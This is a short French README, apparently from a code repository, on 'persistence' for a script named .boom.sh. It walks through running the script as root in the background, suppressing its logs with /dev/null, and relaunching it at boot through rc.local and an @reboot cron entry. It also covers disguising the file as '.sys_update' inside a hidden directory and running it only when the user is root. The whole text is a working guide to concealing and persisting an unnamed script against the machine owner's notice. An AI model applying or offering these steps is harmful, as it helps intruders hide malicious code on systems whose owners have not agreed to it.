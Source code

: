 # Persistence

## Utilisation de base

1. Rendez le script exécutable :

         chmod +x .boom.sh

Exécutez le script avec des privilèges superutilisateur :
    
    sudo ./boom.sh

Techniques avancées pour une exécution discrète
1. Exécution en arrière-plan

Pour exécuter le script en mode "daemon" (en arrière-plan), utilisez :
    
    nohup /path/to/.boom.sh &
Cela détache le script de votre terminal.


2. Réduire l'impact sur le système

Utilisez nice pour attribuer une priorité basse au processus :
    
      nohup nice -n 19 /path/to/.boom.sh &
Cela limite l'utilisation des ressources système par le script.

3. Masquer la sortie du script

Pour empêcher les journaux d'apparaître, redirigez la sortie vers /dev/null :
    
            nohup /path/to/.boom.sh > /dev/null 2>&1 &
    
4. Automatisation au démarrage

Pour garantir que le script persiste après un redémarrage, ajoutez-le au fichier rc.local (si pris en charge) :

Ouvrez le fichier :

    sudo nano /etc/rc.local

Ajoutez cette ligne avant exit 0 :

    /path/to/.boom.sh &

5. Planification avec cron

Vous pouvez également planifier l'exécution via le planificateur cron :

Ouvrez l'éditeur de tâches cron :

        crontab -e

Ajoutez une ligne pour exécuter le script au démarrage :

         @reboot /path/to/.boom.sh > /dev/null 2>&1 &

6. Masquage du script

Pour rendre votre script plus discret :

Renommez-le avec un nom non suspect (ex. .sys_update ou .service).

Déplacez-le dans un répertoire caché, par exemple :
    
        mv .boom.sh ~/.config/.sys_update

7. Exécution conditionnelle

Ajoutez des conditions pour que le script s'exécute uniquement dans certaines situations :

      if [ "$(whoami)" == "root" ]; then
       nohup /path/to/.boom.sh > /dev/null 2>&1 &
      fi


